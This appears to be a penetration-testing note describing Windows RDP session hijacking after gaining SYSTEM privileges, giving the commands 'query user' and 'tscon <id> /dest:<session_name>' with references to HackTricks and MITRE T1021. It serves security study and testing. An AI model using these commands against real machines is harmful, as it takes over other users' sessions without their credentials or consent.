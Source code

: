 # Living off the Land

## Conditions

TODO: Fill the rest of conditions

- With `NT AUTHORITY\SYSTEM` privileges you can access any **open RDP** session by any user without the credentials.

## Session Stealing

List active user sessions

```
C:\> query user
```

Steal user session to authenticate the machine remotely

```
C:\> tscon <id> /dest:<session_name>
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Windows/Host/0xA - Users/Manual/Manual/Living off the Land|Enumeration and Discovery: Users]]

- [Hacktricks: Pentesting RDP](https://book.hacktricks.xyz/pentesting/pentesting-rdp)

- [Hacking Articles: Remote Services (Mitre:T1021)](https://www.hackingarticles.in/lateral-movement-remote-services-mitret1021/)